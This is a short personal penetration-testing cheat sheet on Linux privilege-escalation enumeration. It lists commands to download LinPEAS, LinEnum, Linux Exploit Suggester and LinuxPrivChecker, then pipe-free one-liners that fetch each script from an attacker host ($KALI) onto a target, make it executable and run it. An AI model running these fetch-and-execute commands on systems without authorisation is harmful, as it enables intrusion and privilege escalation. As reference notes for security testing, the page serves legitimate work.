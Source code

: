 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

#### LinPEAS
```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

```bash - kali
wget http://$KALI/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh -a > linpeas.txt &
```

```bash - kali
less -r linpeas.txt
```

#### LinEnum
```bash - linux
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

```bash - linux
wget http://$KALI/LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh > LinEnum.txt &
```

```bash - kali
less -r LinEnum.txt
```

#### Linux Exploit Suggester
```bash - linux
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
```

```bash - linux
wget http://$KALI/linux-exploit-suggester.sh && chmod +x linux-exploit-suggester.sh && ./linux-exploit-suggester.sh > linux-exploit-suggester.txt &
```

```bash - kali
less -r linux-exploit-suggester.txt
```

#### LinuxPrivChecker
```bash - linux
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
```

